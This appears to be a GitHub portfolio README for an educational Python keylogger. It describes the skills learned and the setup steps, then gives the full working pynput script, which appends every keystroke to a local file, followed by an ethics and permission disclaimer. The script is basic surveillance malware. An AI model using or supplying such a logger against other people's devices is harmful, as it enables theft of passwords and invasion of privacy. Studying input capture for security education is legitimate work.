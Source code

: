 <h2>🛠️ Keylogger Script</h2>

<p><strong>Description:</strong><br>
This project involves the development of a Python-based keylogger using the <code>pynput</code> library to capture and log user keystrokes in real time. The script records both regular characters and special keys, writing them to a secure local file. It demonstrates fundamental concepts in input event handling, file I/O, and system-level programming, and serves as an educational tool for understanding user input tracking and ethical hacking practices.
</p>

<h3>🔑 Skills Learned</h3>
<ul>
  <li>Captured keyboard events using <code>pynput</code> and handled both character and non-character inputs.</li>
  <li>Implemented file logging mechanisms to store keystroke data securely.</li>
  <li>Learned the basics of stealth input capture and the importance of responsible ethical usage in cybersecurity education.</li>
  <li>Strengthened Python scripting abilities and real-time event handling concepts.</li>
</ul>

<h3>🧰 Tools Used</h3>
<ul>
  <li><strong>Python</strong>: Main scripting language.</li>
  <li><strong>pynput</strong>: Python library for keyboard/mouse input control and logging.</li>
  <li><strong>Terminal/CLI</strong>: Running and testing script behavior.</li>
</ul>

<h3>⚙️ Steps</h3>
<ol>
  <li>Set up Python environment and installed <code>pynput</code> with <code>pip install pynput</code>.</li>
  <li>Wrote a listener function to capture key presses and distinguish between regular and special keys.</li>
  <li>Created a logging system that appends each captured keystroke to a local file (<code>keyfile.txt</code>).</li>
  <li>Tested the script across different input scenarios and ensured stability in continuous listening mode.</li>
</ol>

<h3>📄 Keylogger Script Code</h3>
<pre><code>from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except AttributeError:
            logkey.write(f'[{key}]')  # Handle special keys
            print("Non-character key")

if __name__ == '__main__':
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    listener.join()  # Keep the program running
</code></pre>

<p><em>Note:</em> This project is for ethical, educational purposes only. It is essential to obtain explicit permission before running keyloggers on any device.</p>
